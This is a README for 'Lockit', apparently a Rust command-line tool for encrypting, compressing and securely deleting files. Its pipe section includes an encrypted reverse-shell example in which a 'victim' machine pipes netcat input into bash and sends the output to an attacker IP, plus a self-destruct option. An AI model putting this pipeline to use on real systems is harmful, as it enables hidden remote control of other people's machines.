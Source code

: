 # Lockit
Lock it, unlock it.

⚡ Blazing fast encryption suite.

```bash
./lockit <file> <file2> <dir1>             # Process files in default mode (encrypt/decrypt)
./lockit encrypt <file> <file2> <dir1>     # Encrypt specific files
./lockit encrypt <file> -p                 # Encrypt a file with a custom passphrase.
./lockit encrypt <dir>                     # Encrypt all files in a directory
./lockit decrypt <dir/file>                # Decrypt a file or directory
./lockit encrypt <dir> --dir               # Compress, tar, and encrypt entire directories
./lockit remove/delete/rm/del <dir/file>   # Securely delete a file / directory.
./lockit remove <file> <file2> --skip-dod  # Skip DoD overwrite passes.
./lockit encrypt --pipe                    # Process as pipe.
./lockit decrypt --pipe -p                 # Process as pipe, custom passphrase.
./lockit --encrypt-filenames               # Encrypt file names
./lockit --no-encrypt-filenames            # Keep file names unchanged
./lockit --self-destruct                   # Remove Lockit after use
./lockit --no-self-destruct                # Retain Lockit after use
```

## Pipe
If `--pipe` is specified, the program processes the input from stdin and outputs to stdout instead of handling files or directories.

```bash
echo "Secret message" | ./lockit encrypt --pipe | ./lockit decrypt --pipe
```

That way you can use it with netcat or other tools. 
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe
echo "This is a very secret message" | ./lockit encrypt --pipe | nc localhost 9999
```

You can wrap your reverse shell around it and you'll have it encrypted. Example:
```bash
nc -lvnp 9999 | ./lockit decrypt --pipe | bash 2>&1 | ./lockit encrypt --pipe | nc 192.168.50.160 9998 # victim receiving commands
nc -lvnp 9998 | ./lockit decrypt --pipe # attacker receiving output
./lockit encrypt --pipe | nc 192.168.60.244 9999 # attacker sending commands
```

## Mechanism
- Lockit compresses files using zstd and secures them with AES-256-GCM encryption.
- Lockit provides secure file deletion that follows DoD 5220.22-M standard.

## But I have SSD
Yes, although DoD 5220.22-M short wipe is good enough for most cases, due to SSD wear leveling, you won't be able to remove the data fully using software. The best way to handle this is combination of hardware TRIM erase and cryptographic erasure. Encrypt the disk fully and delete the key. Or use a hammer, as it is the most effective method for 100% lossy compression.

## Installation
```bash
git clone https://github.com/krystianbajno/lockit
cargo build --release
```

## Customizing Default Settings
To change default settings, simply modify `build.rs`.